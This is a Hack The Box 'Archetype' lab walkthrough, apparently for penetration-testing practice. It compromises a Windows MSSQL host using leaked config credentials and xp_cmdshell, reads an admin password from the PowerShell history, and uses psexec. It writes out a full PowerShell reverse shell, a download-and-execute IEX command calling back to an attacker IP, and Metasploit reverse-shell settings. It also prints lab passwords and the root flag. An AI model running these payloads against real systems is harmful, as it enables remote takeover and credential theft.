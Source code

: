 HTB - Archetype

1. Scan with `nmap`:
	```
	kali@kali:~$ nmap -T4 -A -p- 10.10.10.27 
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 17:58 EDT
	Nmap scan report for 10.10.10.27
	Host is up (0.042s latency).
	Not shown: 65480 closed ports, 43 filtered ports
	PORT      STATE SERVICE      VERSION
	135/tcp   open  msrpc        Microsoft Windows RPC
	139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
	445/tcp   open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
	1433/tcp  open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
	| ms-sql-ntlm-info: 
	|   Target_Name: ARCHETYPE
	|   NetBIOS_Domain_Name: ARCHETYPE
	|   NetBIOS_Computer_Name: ARCHETYPE
	|   DNS_Domain_Name: Archetype
	|   DNS_Computer_Name: Archetype
	|_  Product_Version: 10.0.17763
	| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
	| Not valid before: 2020-05-03T17:16:49
	|_Not valid after:  2050-05-03T17:16:49
	|_ssl-date: 2020-05-03T22:15:41+00:00; +14m18s from scanner time.
	5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
	|_http-server-header: Microsoft-HTTPAPI/2.0
	|_http-title: Not Found
	49664/tcp open  msrpc        Microsoft Windows RPC
	49665/tcp open  msrpc        Microsoft Windows RPC
	49666/tcp open  msrpc        Microsoft Windows RPC
	49667/tcp open  msrpc        Microsoft Windows RPC
	49668/tcp open  msrpc        Microsoft Windows RPC
	49669/tcp open  msrpc        Microsoft Windows RPC
	Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
	
	Host script results:
	|_clock-skew: mean: 1h38m18s, deviation: 3h07m51s, median: 14m17s
	| ms-sql-info: 
	|   10.10.10.27:1433: 
	|     Version: 
	|       name: Microsoft SQL Server 2017 RTM
	|       number: 14.00.1000.00
	|       Product: Microsoft SQL Server 2017
	|       Service pack level: RTM
	|       Post-SP patches applied: false
	|_    TCP port: 1433
	| smb-os-discovery: 
	|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
	|   Computer name: Archetype
	|   NetBIOS computer name: ARCHETYPE\x00
	|   Workgroup: WORKGROUP\x00
	|_  System time: 2020-05-03T15:15:32-07:00
	| smb-security-mode: 
	|   account_used: guest
	|   authentication_level: user
	|   challenge_response: supported
	|_  message_signing: disabled (dangerous, but default)
	| smb2-security-mode: 
	|   2.02: 
	|_    Message signing enabled but not required
	| smb2-time: 
	|   date: 2020-05-03T22:15:33
	|_  start_date: N/A
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 187.16 seconds
	```
2. Nessus scan for fun
	Start with `sudo /etc/init.d/nessusd start` and go to `https://kali:8834`

3. Samba is open so lets see is anonymous login enabled and list the shares
	```
	smbclient -L \\\\10.10.10.27\\
	anonymous (or use -N in above command for anonymous login)
	```
	Result: `backups` directory found
	
	See inside `backups`: `smbclient -N \\\\10.10.10.27\\backups`. There is a dtsConfig file, which is a config file used with SSIS: 
	```
	get prod.dtsConfig
	exit
	cat pro.dtsConfig
	```
	
	```
	ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
	```
	
	Result: Contains credientials for user `ARCHETYPE\sql_svc` with password `M3g4c0rp123`.
4. Target is running `Microsoft SQL Server 2017 14.00.1000.00` per the `nmap` scan. Searching for exploit reveals [Rapid 7](https://www.rapid7.com/db/modules/exploit/windows/mssql/mssql_payload) and [HackTricks Book](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)
	* HackTricks had command to gather info about the service: `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=ARCHETYPE\sql_svc,mssql.password=M3g4c0rp123,mssql.instance-name=ARCHETYPE -sV -p 1433 10.10.10.27` which was not helpful since it is similar to the `-A` flag. 
	* Attempt Metasploit exploit:
		```
		sudo msfconsole
		search mssql
		use exploit/windows/mssql/mssql_payload
		options
		set username sql_svc
		set password M3g4c0rp123
		set rhosts 10.10.10.27
		set USE_WINDOWS_AUTHENT true
		set payload windows/meterpreter/reverse_tcp
		options
		run
		```
		Possibly could use `set payload windows/shell_reverse_tcp`
		Failed.
	* Manual Exploit
		* Let's try connecting to the SQL Server using Impacket's mssqlclient.py: `python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -win`dows-auth`
		* We can use the `IS_SRVROLEMEMBER` function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges. This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.
			```
			EXEC sp_configure 'Show Advanced Options', 1;
			reconfigure;
			sp_configure;
			EXEC sp_configure 'xp_cmdshell', 1
			reconfigure;
			xp_cmdshell "whoami" 
			```
		* Save following as `shell.ps1`: `kali@kali:~$ cat shell.ps1 
 $client = New-Object System.Net.Sockets.TCPClient("10.10.15.117",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() `
		* Next, stand up a mini webserver in order to host the file. We can use Python: `python3 -m http.server 80`
		* After standing up a netcat listener on port 443: `nc -lvnp 443`
		* We can now issue the command to download and execute the reverse shell through xp_cmdshell: `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.15.117/shell.ps1\");" `
		* A shell is received as sql_svc, and we can get the user.txt on their desktop.
5. Privilege Escalation
	* As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file: `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
		Result: `net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!`
	* This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.
		```
		kali@kali:~/Downloads/impacket-0.9.21/examples$ python3 psexec.py administrator@10.10.10.27
		Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation
		
		Password: MEGACORP_4dm1n!!
		[*] Requesting shares on 10.10.10.27.....
		[*] Found writable share ADMIN$
		[*] Uploading file tHaoJdVi.exe
		[*] Opening SVCManager on 10.10.10.27.....
		[*] Creating service JESk on 10.10.10.27.....
		[*] Starting service JESk.....
		[!] Press help for extra shell commands
		Microsoft Windows [Version 10.0.17763.107]
		(c) 2018 Microsoft Corporation. All rights reserved.
		
		C:\Windows\system32>whoami
		nt authority\system

		```
	* Get flag
		```
		cd C:\Users\Administrator\Desktop
		type root.txt
		b91ccec3305e98240082d4474b848528
		```


